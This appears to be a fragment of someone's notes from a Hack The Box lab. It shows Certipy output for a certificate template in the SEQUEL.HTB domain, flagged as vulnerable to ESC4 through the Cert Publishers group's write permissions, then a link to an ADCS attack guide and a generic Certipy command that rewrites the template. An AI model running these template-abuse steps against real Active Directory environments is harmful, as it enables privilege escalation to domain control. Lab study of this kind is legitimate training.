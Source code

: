     Client Authentication               : True
    Enrollment Agent                    : False
    Any Purpose                         : False
    Enrollee Supplies Subject           : False
    Certificate Name Flag               : SubjectRequireCommonName
                                          SubjectAltRequireDns
    Enrollment Flag                     : AutoEnrollment
                                          PublishToDs
    Private Key Flag                    : 16842752
    Extended Key Usage                  : Client Authentication
                                          Server Authentication
    Requires Manager Approval           : False
    Requires Key Archival               : False
    Authorized Signatures Required      : 0
    Validity Period                     : 1000 years
    Renewal Period                      : 6 weeks
    Minimum RSA Key Length              : 2048
    Permissions
      Enrollment Permissions
        Enrollment Rights               : SEQUEL.HTB\Domain Admins
                                          SEQUEL.HTB\Enterprise Admins
      Object Control Permissions
        Owner                           : SEQUEL.HTB\Enterprise Admins
        Full Control Principals         : SEQUEL.HTB\Cert Publishers
        Write Owner Principals          : SEQUEL.HTB\Domain Admins
                                          SEQUEL.HTB\Enterprise Admins
                                          SEQUEL.HTB\Administrator
                                          SEQUEL.HTB\Cert Publishers
        Write Dacl Principals           : SEQUEL.HTB\Domain Admins
                                          SEQUEL.HTB\Enterprise Admins
                                          SEQUEL.HTB\Administrator
                                          SEQUEL.HTB\Cert Publishers
        Write Property Principals       : SEQUEL.HTB\Domain Admins
                                          SEQUEL.HTB\Enterprise Admins
                                          SEQUEL.HTB\Administrator
                                          SEQUEL.HTB\Cert Publishers
    [!] Vulnerabilities
      ESC4                              : 'SEQUEL.HTB\\Cert Publishers' has dangerous permissions




# steps


https://seriotonctf.github.io/2024/06/26/ADCS-Attacks-with-Certipy/index.html
look here

## ESC4

|   |
|---|
|certipy template -u username -p password -template template -save-old -dc-ip ip|

